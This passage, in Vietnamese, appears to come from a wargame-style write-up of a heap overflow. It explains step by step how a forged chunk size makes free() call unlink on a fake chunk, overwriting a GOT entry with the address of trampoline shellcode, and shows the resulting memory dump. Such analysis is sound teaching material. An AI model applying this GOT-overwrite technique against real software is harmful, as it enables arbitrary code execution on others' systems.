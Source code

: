 Hãy cùng soát lại một lượt logic của chương trình exploit.

Khi `free` được gọi lên khối thứ 3, vì khối liền trước đang được sử dụng, sẽ không có `unlink` được gọi cho khối đó.
Hàm `free` sẽ tiếp tục kiểm tra khối liền sau. Để biết được khối liền sau có đang được dùng không, hàm này sẽ tìm đến khối liền sau của khối liền sau.

Theo đúng thứ tự, khối liền sau sẽ ở địa chỉ `0x0804c050 + 0x64 = 0x0804c0b4` (địa chỉ khối hiện tại, cộng với kích cỡ của chính nó).
Tại địa chỉ này, meta data của khối là `prev_size` ở `0x0804c0b4`, `size` ở `0x0804c0b8`.

Như vậy, khối liền sau của khối liền sau được tính bằng công thức tương tự: `0x0804c0b4 + 0xfffffffc`.
Ở đây, do `0xfffffffc` đã overflow, giá trị được cộng vào để tính địa chỉ sẽ là `-0x04`.
Suy ra, địa chỉ của khối liền sau của khối liền sau là `0x0804c0b4 - 0x04 = 0x0804c0b0`.
Meta data của khối này là `prev_size` ở `0x0804c0b0`, `size` ở `0x0804c0b4`.

Khi kiểm tra `size` của khối liền sau của khối liền sau này, bit cuối cùng là 0.
Do vậy, khối liền sau của khối đang xét là khối trống. Theo sau `prev_size` và `size` trong meta data của khối trống sẽ là 2 địa chỉ, 1 là của khối liền sau nó, và 1 là của khối liên trước nó.
Cụ thể 2 địa chỉ này nằm tại `0x0804c0bc` và `0x0804c0c0` với các giá trị tương ứng là `0x0804b11c` và `0x0804c010`.
Lúc này, điều kiện của `unlink` đã thỏa mãn nên hàm này sẽ được gọi cho khối liền sau.

Từ định nghĩa của `unlink` phía trên, ta sẽ tính các thông tin liên quan.
Pointer `FD` sẽ có giá là `0x0804b11c`. Khi gán giá trị của `BK` vào `FD->bk` (ở dòng thứ 3 trong `unlink`), `FD->bk` sẽ được tính là offset 12 byte của `FD`.
Đây là lý do `0x0804b11c` được chọn thay cho giá trị gốc trên GOT `0x0804b128`.
`FD->bk = FD + 0x0c` hay `0x0804b11c + 0x0c = 0x0804b128`, và giá trị được lưu vào đây là `BK = 0x0804c010`.
Tương tự với `BK`. Khi gán giá trị của `FD` vào `BK->fd`, trước tiên, ta tính được địa chỉ của `BK->fd = 0x0804c010 + 0x08 = 0x0804c018`.
Offset cho `->fd` là 8 byte. Giá trị lưu vào địa chỉ này sẽ là `0x0804b11c`.
Rất may mắn vì trampoline code có đúng 8 byte nên giá trị lưu vào `BK->fd` không làm thay đổi trampoline code.
Đây cũng là một lưu ý quan trọng.
Sau hai bước này, bộ nhớ sẽ chuyển thành như sau. Các thay đổi được highlight.

<pre class="memory">
0x804c000:      0x00000000      0x00000029      0x41414141      0x41414141
0x804c010:      0x048864b8      0xc3d0ff08      <span style="color:springgreen">0x0804b11c</span>      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0x42424242      0x42424242      0x42424242      0x42424242
0x804c040:      0x42424242      0x42424242      0x42424242      0x42424242
0x804c050:      0x43434343      <span style="color:aqua">0x00000061</span>      <span style="color:orangered">0x0804b194</span>      <span style="color:orangered">0x0804b194</span>
0x804c060:      0x44444444      0x44444444      0x44444444      0x44444444
0x804c070:      0x44444444      0x44444444      0x44444444      0x44444444
0x804c080:      0x44444444      0x44444444      0x44444444      0x44444444
0x804c090:      0x44444444      0x44444444      0x44444444      0x44444444
0x804c0a0:      0x44444444      0x44444444      0x44444444      0x44444444
0x804c0b0:      <span style="color:aqua">0x00000060</span>      0xfffffffc      0xfffffffc      0x0804b11c
0x804c0c0:      0x0804c010      0x00000000      0x00000000      0x00000000
0x804c0d0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0e0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0f0:      0x00000000      0x00000000      0x00000000      0x00000000
...
0x804b11c <_GLOBAL_OFFSET_TABLE_+52>:   0x08048766      0x08048776      0x08048786      <span style="color:springgreen">0x0804c010</span>
0x804b12c <_GLOBAL_OFFSET_TABLE_+68>:   0x080487a6      0x00000000      0x00000000      0x00000000
</pre>
